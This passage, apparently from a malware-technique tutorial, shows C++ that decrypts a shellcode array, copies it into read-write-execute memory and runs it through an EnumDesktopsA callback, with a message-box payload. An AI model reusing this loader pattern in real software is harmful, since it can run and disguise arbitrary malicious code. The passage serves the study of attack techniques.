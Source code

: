 ```cpp
  // Compare decrypted data with original data
  if (memcmp(data, decrypted, data_size) == 0) {
    printf("encryption and decryption successful.\n");
  } else {
    printf("encryption and decryption failed.\n");
  }

  LPVOID mem = VirtualAlloc(NULL, data_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decrypted, data_size);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

As usually, for simplicity, used `meow-meow` messagebox payload:     

```cpp
unsigned char data[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```

As you can see, for checking correctness, also added comparing and printing logic:     

```cpp
// Compare decrypted data with original data
if (memcmp(data, decrypted, data_size) == 0) {
  printf("encryption and decryption successful.\n");
} else {
  printf("encryption and decryption failed.\n");
}
```
